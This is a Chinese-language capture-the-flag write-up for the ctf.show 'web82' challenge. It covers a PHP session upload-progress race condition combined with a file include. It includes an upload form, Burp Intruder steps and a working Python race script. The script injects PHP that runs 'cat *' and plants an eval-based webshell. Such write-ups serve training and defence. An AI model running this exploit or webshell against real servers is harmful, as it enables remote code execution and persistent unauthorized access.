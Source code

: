 # web82
本题需要用到session的条件竞争
1.用BP操作
首先在小皮下创建网页

```
<!DOCTYPE html>
<html>
<body>
<form action="http://79b5dbc7-b641-4e30-b8d9-4278f2234938.chall.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```
访问后抓包,文件任意,发送到inruder模块
![](vx_images/69973292648143.png)
然后再去将靶场的包抓下来也放到intruder中(参数改为?file=/tmp/sess_flag),两者同时爆破(都设为null payloads)
注意将访问的线程和数量高于上传包
![](vx_images/479812615459009.png)
访问包线程用100
结果(左:上传包,右:包含包)
![](vx_images/494574924038722.png)


2.用脚本(大佬的给出注释)
```
# 导入所需库
import io  # 用于创建内存中的二进制流文件
import sys  # 系统相关操作，如退出程序
import requests  # 发送HTTP请求
import threading  # 多线程实现条件竞争

# 设置固定的 session ID（对应 PHP 的 /tmp/sess_flag 文件）
sessid = 'flag'


# 定义持续发送 POST 请求的函数（用于触发文件上传和session写入）
def POST(session):
    while True:  # 无限循环保持持续攻击
        # 创建一个50KB大小的虚拟文件（用于触发上传进度）
        f = io.BytesIO(b'a' * 1024 * 50)

        # 发送POST请求，关键参数：
        session.post(
            'http://01cef411-2835-49cf-9bdb-2465567aecf7.challenge.ctf.show/',
            data={
                # 利用PHP的上传进度机制注入PHP代码
                'PHP_SESSION_UPLOAD_PROGRESS': "<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>"
            },
            files={'file': ('q.txt', f)},  # 上传虚拟文件
            cookies={'PHPSESSID': sessid}  # 指定session ID
        )


# 定义持续读取session文件的函数（用于检查攻击是否成功）
def READ(session):
    while True:
        # 访问服务器上的session文件（/tmp/sess_flag）
        response = session.get(
            f'http://01cef411-2835-49cf-9bdb-2465567aecf7.challenge.ctf.show/?file=/tmp/sess_{sessid}'
        )

        # 检查响应中是否包含flag（攻击成功标志）
        if 'flag' not in response.text:
            print('[+++]retry')  # 未成功则重试
        else:
            print(response.text)  # 输出包含flag的响应
            sys.exit(0)  # 成功后退出程序


# 主程序
with requests.session() as session:  # 创建持久会话
    # 创建并启动POST线程（守护线程模式，主线程退出时自动终止）
    t1 = threading.Thread(target=POST, args=(session,))
    t1.daemon = True
    t1.start()

    # 在主线程中启动读取检测（避免守护线程提前退出）
    READ(session)
```
![](vx_images/295993588967270.png)